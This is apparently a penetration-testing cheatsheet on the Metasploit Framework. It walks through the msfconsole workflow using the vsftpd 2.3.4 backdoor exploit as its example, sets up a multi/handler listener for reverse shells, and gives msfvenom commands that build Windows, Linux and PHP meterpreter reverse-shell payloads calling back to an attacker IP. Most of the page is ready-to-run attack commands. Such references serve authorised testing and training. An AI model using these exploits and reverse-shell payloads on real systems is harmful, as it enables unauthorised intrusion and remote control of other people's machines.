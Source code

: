 # Cybersecurity Cheatsheet: Exploitation

This cheatsheet covers essential tools for gaining initial access, managing shells, and brute-forcing credentials.

## Metasploit Framework (`msfconsole`)

A powerful exploitation framework.

**Core Workflow:**
1.  **Search**: `search <service/vulnerability>` (e.g., `search vsftpd 2.3.4`)
2.  **Select**: `use <module_path>` (e.g., `use exploit/unix/ftp/vsftpd_234_backdoor`)
3.  **Options**: `show options` (to see required parameters)
4.  **Set Parameters**: `set RHOSTS <target_IP>`, `set LHOST <your_IP>`
5.  **Exploit**: `exploit` or `run`

**Listeners (for receiving reverse shells):**
use exploit/multi/handler set payload <payload_type> # e.g., windows/x64/meterpreter/reverse_tcp set LHOST <your_IP> set LPORT <listening_port> run

**Payload Generation (`msfvenom`):**
```bash
# Windows Reverse TCP Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<port> -f exe -o shell.exe

# Linux Reverse TCP Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<port> -f elf -o shell.elf

# Web (PHP) Reverse Shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<your_IP> LPORT=<port> -f raw -o shell.php
```